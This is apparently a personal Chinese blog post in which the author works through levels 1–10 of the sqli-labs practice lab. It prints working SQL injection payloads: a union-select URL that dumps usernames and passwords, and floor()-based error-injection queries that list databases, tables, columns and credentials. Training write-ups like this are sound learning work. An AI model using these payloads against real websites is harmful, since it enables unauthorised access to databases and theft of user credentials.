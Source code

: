 ```yaml
---
title: 一天日穿sqli-labs（伪）
author: Troy3e
avatar: 'https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/avatar.jpg'
authorAbout: steamID：888007034
authorDesc: 'Blizzard：TroyeSivan#51769'
categories: 技术
comments: true
date: 2020-09-08 20:34:28
authorLink:
tags:
keywords:
description:
photos: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/867985.jpg
---
```

严格意义上讲今天还剩几小时了，所以明天继续。。。
之前打了一点sqli-labs，那个时候一知半解，就想着前进到下一关，也不知道自己写的是什么，所以sql注入的基础不太行。
今天从头开始重新挑战，借此机会希望能深入了解并掌握sql注入。

1、Less-1
单引号 
常规注入
http://bc61289b-8ad5-4c78-bce3-b9464ef5260c.node3.buuoj.cn/Less-1/?id=0%27%20union%20select%201,group_concat(username),group_concat(password)%20from%20users%20--+

2、Less-2
数字型，其他和上面一样

3、Less-3
('1')型，其他一样

4、Less-4
("1")型，其他一样

5、Less-5
报错注入，ez，extracvalue，启动！
Table 'security.flag' doesn't exist.......
一天日穿计划，失败。。。。
原因是我只会一个extractvalue，这里库非常多，而extractvalue的显示位数是有限制的，实际上只显示了一个security。
遇到了就来学习一下。
在这里我们使用floor报错语句进行注入：

通过floor报错
and (select 1 from (select count(*),concat((payload),floor (rand(0)*2))x from information_schema.tables group by x)a)
其中payload为你要插入的SQL语句
需要注意的是该语句将 输出字符长度限制为64个字符

?id=2' and (select 1 from (select count(*),concat(((select group_concat(schema_name) from information_schema.schemata)),floor (rand(0)*2))x from information_schema.tables group by x)a) --+

页面提示我输出信息超过一行，但我们已经使用了group_concat函数，说明这里数据库名组成的字符串长度超过了64位，所以我们需要放弃group_concat函数，而使用limit 0,1来一个个输出
group_concat()函数的作用：将返回信息拼接成一行显示
limit 0,1  表示输出第一个数据。   0表示输出的起始位置，1表示跨度为1（即输出几个数据，1表示输出一个，2就表示输出两个）
接着我们运用如下语句： 

and (select 1 from (select count(*),concat((select schema_name from information_schema.schemata limit 0,1),floor (rand()*2)) as x from information_schema.tables group by x) as a) --+

改变 limit n,1 的n的值即可一个一个爆出

爆表：

and (select 1 from (select count(*),concat((select concat(table_name,';') from information_schema.tables where table_schema='security' limit 0,1),floor(rand()*2)) as x from information_schema.tables group by x) as a) --+

爆列：

and (select 1 from (select count(*),concat((select concat(column_name,';') from information_schema.columns where table_name='users' limit 0,1),floor(rand()*2)) as x from information_schema.columns group by x) as a) --+

爆用户名：

and(select 1 from (select count(*),concat((select concat(username,': ',password,';') from security.users limit 0,1),floor(rand()*2)) as x from security.users group by x) as a)--+

简直懒死了 今天看到了才想起来floor。。。。

6、Less-6
双引号

7、Less-7
忘了咋做了。。。。
其实这靶场设置的也不真实，比如说前面那个报错注入，输入id=1显示 youarein.....，那这数据库还有啥用。。。。
本关卡提示使用file权限向服务器写入文件

试了一下，一直报错，可能是我用的buu的环境？
反正不常用就跳过吧。

8、Less-8
二分法

9、Less-9
时间盲注

10、Less-10
双引号时间盲注

后面不想打了，这做起来感觉挺奇怪的。。没有ctf那感觉，还是多看看比赛题吧。

后面的计划是每天至少复习前面的五道题并且做一到两道新题，毕竟后面题开始难起来了，做快了也没用。